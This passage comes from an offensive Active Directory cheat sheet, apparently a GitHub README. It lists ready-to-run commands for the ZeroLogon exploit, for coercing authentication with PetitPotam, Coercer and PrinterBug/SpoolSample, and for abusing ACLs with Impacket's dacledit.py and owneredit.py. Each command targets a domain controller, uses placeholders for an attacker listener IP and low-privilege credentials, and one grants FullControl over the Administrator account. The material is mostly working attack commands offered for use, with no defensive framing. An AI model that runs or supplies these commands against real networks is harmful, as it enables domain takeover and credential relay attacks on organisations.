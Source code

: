 #### Windows:

```powershell
# SharpZeroLogon
.\SharpZeroLogon.exe DC_NAME DC_IP
```

### 🔗 Coercion Attacks

#### PetitPotam

```bash
# Linux
python3 PetitPotam.py attacker_ip DC_IP
python3 PetitPotam.py -u lowpriv -p password attacker_ip DC_IP

# Windows
.\PetitPotam.exe attacker_ip DC_IP
```

#### Coercer (Multiple Methods)

```bash
# Comprehensive coercion scanning
python3 Coercer.py -t DC_IP -l attacker_ip --scan
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-RPRN
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-EFSRPC
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-DFSNM
```

#### PrinterBug

```bash
# SpoolSample
python3 printerbug.py domain.com/lowpriv:password@DC_IP attacker_ip

# Windows
.\SpoolSample.exe DC_IP attacker_ip
```

### 🏛️ Advanced ACL Abuse

#### Linux:

```bash
# dacledit.py (Impacket)
dacledit.py -action read -target Administrator domain.com/lowpriv:password -dc-ip DC_IP
dacledit.py -action write -target Administrator -principal lowpriv -rights FullControl domain.com/lowpriv:password -dc-ip DC_IP

# owneredit.py
owneredit.py -action read -target Administrator domain.com/lowpriv:password -dc-ip DC_IP
owneredit.py -action write -target Administrator -new-owner lowpriv domain.com/lowpriv:password -dc-ip DC_IP
```
